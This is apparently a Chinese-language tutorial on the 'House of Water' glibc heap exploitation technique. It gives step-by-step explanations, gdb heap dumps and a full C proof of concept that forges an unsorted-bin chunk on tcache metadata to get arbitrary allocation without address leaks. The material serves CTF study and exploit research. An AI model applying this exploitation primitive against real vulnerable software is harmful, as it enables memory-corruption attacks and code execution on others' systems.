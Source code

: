 ~~神秘妙妙大🏠~~

## 原理

### TL;DR

总的来说，这个打法的应用场景是在：
- fastbin / tcachebin 有指针加密
- 程序没有 show 来 leak libc or heap_base
- 程序至少可以 uaf

由于没有 show，所以得打 `stdout/stderr` 这些，所以得 fastbin attack 或者 tcache posioning 来实现任意地址分配，但是这些打法无一例外需要泄漏 heap_base（高版本存在指针加密），当然如果低版本没有指针加密的话，可以通过 uaf 打堆块重叠之类的做到任意地址分配。

回到这个手法，核心思想是通过伪造一个在 tcache_pthread_struct 上的 fake_unsortbin 来实现任意地址分配，这个过程中最多只需要 1/16 的爆破，不需要其他任何的地址泄漏等等。

### 具体手法

#### step1

分配 0x3d8 和 0x3e8 大小的 chunk，以将其各自的 t-cache 计数设置为 1，此时 tcache_pthread_struct + 0x78 位置会被写入一个 0x10001，这是因为 tps 的 idx 字段是 int 的，效果如下：

```
tcache is pointing to: 0x555555559010 for thread 1
{
counts = {0 <repeats 60 times>, 1, 1, 0, 0},
entries = {0x0 <repeats 60 times>, 0x5555555592a0, 0x555555559680, 0x0, 0x0}
}

0x555555559000: 0x0000000000000000      0x0000000000000291
0x555555559010: 0x0000000000000000      0x0000000000000000
0x555555559020: 0x0000000000000000      0x0000000000000000
0x555555559030: 0x0000000000000000      0x0000000000000000
0x555555559040: 0x0000000000000000      0x0000000000000000
0x555555559050: 0x0000000000000000      0x0000000000000000
0x555555559060: 0x0000000000000000      0x0000000000000000
0x555555559070: 0x0000000000000000      0x0000000000000000
0x555555559080: 0x0000000000000000      0x0000000000010001  <- fake_chunk
```

然后我们分配 7 个 0x88 的 chunk 用于后面填充 tcachebin。

#### step2

分配 3 个 ub，中间用 gap 隔开。

```c
void *unsorted_start = malloc(0x88);
_ = malloc(0x18); // Guard chunk

void *unsorted_middle = malloc(0x88);
_ = malloc(0x18); // Guard chunk

void *unsorted_end = malloc(0x88);
_ = malloc(0x18); // Guard chunk
```


#### step3

接下来，我们要通过一些办法让堆管理器认为 fake_chunk 是 free 的，这需要我们把 `fake_chunk + 0x10000` 处的 `prev_size` 和 `size` 字段的 `pre_inuse` 位设置好。

```c
_ = malloc(0xf000);		  // Padding
void *end_of_fake = malloc(0x18); // Metadata chunk
*(long *)end_of_fake = 0x10000;
*(long *)(end_of_fake+0x8) = 0x20;
```

大概这样设置一下。

#### step4

把 step1 里申请的 0x90 的 7 个 chunk 释放掉，填满对应的 tcache idx。

#### step5

接下来到了最关键的部分，为了将 fakechunk 伪造成一个合法的 unsortbin，需要伪造它的 fd bk 字段，可以注意到我们申请出来 0x10001 的相对偏移是 `0x88`，而偏移为 `0x90` 处（对应 fd）正好是大小为 0x20 的 tcachebin chunk 的 record，`0x98` 处（对应 bk）正好是大小为 0x30 的 tcachebin chunk 的 record。

然后还要注意一个点：tcachebin 记录的是返回给用户的 chunkptr，而其他 bins(unsortbin) 记录的就是申请出来的 chunk 头。

所以我们可以往刚刚申请的 unsortbin chunk 头前伪造一个合法的 size 字段，做到释放与 unsorted_start 和 unsorte_end 块的头完全重叠的块。

```c
*(long*)(unsorted_start - 0x18) = 0x31;
free(unsorted_start - 0x10); // Create a fake fd pointer for the fake chunk
*(long*)(unsorted_start - 0x8) = 0x91;

*(long*)(unsorted_end - 0x18) = 0x21; // Write 0x21 above unsorted_end
free(unsorted_end - 0x10); // Create a fake bk for the fake chunk
*(long*)(unsorted_end - 0x8) = 0x91;	// recover the original header
```

`unsorted_start` 大概如下，`unsorted_end` 类似。
```
0x555555559e40: 0x0000000000000000      0x0000000000000031
0x555555559e50: 0x0000000555555559      0x0000000000000091
0x555555559e60: 0x0000000000000000      0x0000000000000000
```

最终效果如下：

```
0x555555559080: 0x0000000000000000      0x0000000000010001
0x555555559090: 0x0000555555559fb0      0x0000555555559e50
0x5555555590a0: 0x0000000000000000      0x0000000000000000
```

这是一个比较合法的 unsortbin chunk，接下来只要想办法把他挂到 unsortbin 链子里就行。

#### step6

释放 3 个 unsortbin chunk，效果如下：

```
unsortedbin
all: 0x555555559e50 —▸ 0x555555559f00 —▸ 0x555555559fb0 —▸ 0x7ffff7e03b20 (main_arena+96) ◂— 0x555555559e50
```

现在只需要把这个链子里的 `0x555555559f00` 改成 `0x555555559080` 就可以。

#### step7

这里就需要用到 uaf，利用题目漏洞 edit / 部分写 `0x555555559f00` 为 `0x555555559080`，这里只需要一个 1/16 的爆破。

具体是修改 `unsorted_start` 的 `fd` 和 `unsorted_end` 的 `bk`。

```
unsortedbin
all: 0x555555559e50 —▸ 0x555555559080 —▸ 0x555555559fb0 —▸ 0x7ffff7e03b20 (main_arena+96) ◂— 0x555555559e50
```

#### step8

接下来任意申请一个小于 0x10000 的 chunk 就可以完成攻击了。


### 效果

相当于可以控制部分的 tcache_pthread_plus 了，这里就可以任意地址申请了。

同时 tps 的 0x20 和 0x30 的地方会写入 main_arena 的 libc 值，这里可以任意申请 libc 了。


完整 Poc：

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    void *fake_size_lsb = malloc(0x3d8);
    void *fake_size_msb = malloc(0x3e8);

    free(fake_size_lsb);
    free(fake_size_msb);
    void *metadata = (void *)((long)(fake_size_lsb) & ~(0xfff));
    void *x[7];
    for (int i = 0; i < 7; i++) {
        x[i] = malloc(0x88);
    }
    void *_ = 0;
    void *unsorted_start = malloc(0x88);
    _ = malloc(0x18); // Guard chunk

    void *unsorted_middle = malloc(0x88);
    _ = malloc(0x18); // Guard chunk

    void *unsorted_end = malloc(0x88);
    _ = malloc(0x18); // Guard chunk

    _ = malloc(0xf000);		  // Padding
    void *end_of_fake = malloc(0x18); // Metadata chunk
    *(long *)end_of_fake = 0x10000;
    *(long *)(end_of_fake + 8) = 0x20;


    for (int i = 0; i < 7; ++i) {
        free(x[i]);
    }


    *(long*)(unsorted_start - 0x18) = 0x31;
    free(unsorted_start - 0x10); // Create a fake fd pointer for the fake chunk
    *(long*)(unsorted_start - 0x8) = 0x91;

    *(long*)(unsorted_end - 0x18) = 0x21; // Write 0x21 above unsorted_end
    free(unsorted_end - 0x10); // Create a fake bk for the fake chunk
    *(long*)(unsorted_end - 0x8) = 0x91;	// recover the original header

    free(unsorted_end);
    free(unsorted_middle);
    free(unsorted_start);

    /* VULNERABILITY */
    *(unsigned long *)unsorted_start = (unsigned long)(metadata+0x80);
    *(unsigned long *)(unsorted_end+0x8) = (unsigned long)(metadata+0x80);

    malloc(0x288);
    return 0;
}
```


- 参考文章：https://4xura.com/pwn/house-of-water/